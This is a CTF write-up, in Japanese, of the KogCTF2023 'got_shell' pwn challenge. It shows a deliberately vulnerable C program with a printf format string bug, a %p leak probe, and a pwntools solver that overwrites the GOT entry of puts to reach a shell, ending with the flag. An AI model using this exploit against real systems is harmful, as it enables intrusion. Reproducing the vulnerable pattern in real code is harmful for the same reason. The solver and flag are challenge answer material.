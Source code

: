 # got_shell:Pwn:150pts
難易度：★★★  
人類の95%が解けない(適当)。解けたらIQ200 (2時間あれば作問できるだろ！となめてかかったら環境整えるのに滅茶苦茶かかりました！ごめんなさい。)  
```
nc kogctf.com 20917
```
flagは/home/got_shell内にあります  

[chall.tar.gz](chall.tar.gz)  

# Solution
人類の95%が解けないらしい…。  
配布されていた実行ファイルはELF 32-bitであり、チェック機構がある程度ついている。  
```bash
$ file got_shell
got_shell: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, not stripped
$ checksec --file=got_shell
[*] '/got_shell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
配布されていたソースは以下のようであった。  
```c
#include <stdio.h>
#include <stdlib.h>

void win()
{
    system("/bin/sh");
}

void vuln()
{
    char buf[64];
    printf("Why you wanna shell? ");
    fgets(buf, 64, stdin);
    printf(buf);
    puts("Hmm...Good bye!");
    return;
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```
どう考えてもFSBである。  
```bash
$ nc kogctf.com 20917
Why you wanna shell? AAAA%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
AAAA0x40,0xf7f6d5c0,0xf7dc7da0,0xf7f6dd40,(nil),(nil),0xffc78e3c,0xffc78e3c,0x15,0x804c000,0x41414141,0x252c7025,0x70252c70,0x2c70252c,0x252c7025
Hmm...Good bye!
```
`win`なるイイ関数があるので、GOT overwriteで呼び出してやればよい。  
以下のsolver.pyでシェルを奪う。  
```python
from pwn import *

HOST = "kogctf.com"
PORT = 20917

elf = ELF("./got_shell")
got_puts = elf.got[b"puts"]
sym_win = elf.symbols[b"win"]

payload = fmtstr_payload(11, {got_puts: sym_win})

r = remote(HOST, PORT)
r.recvuntil(b"Why you wanna shell? ")
r.sendline(payload)

r.interactive()
```
実行する。
```bash
$ python solver.py
~~~
$ id
uid=1000(got_shell) gid=1000(got_shell) groups=1000(got_shell)
$ ls /home/got_shell
flag.txt
got_shell
$ cat /home/got_shell/flag.txt
KogCTF2023{f0rm4t_n_1s_d4ng3r0us}
```
flag.txtにflagが書かれていた。  

## KogCTF2023{f0rm4t_n_1s_d4ng3r0us}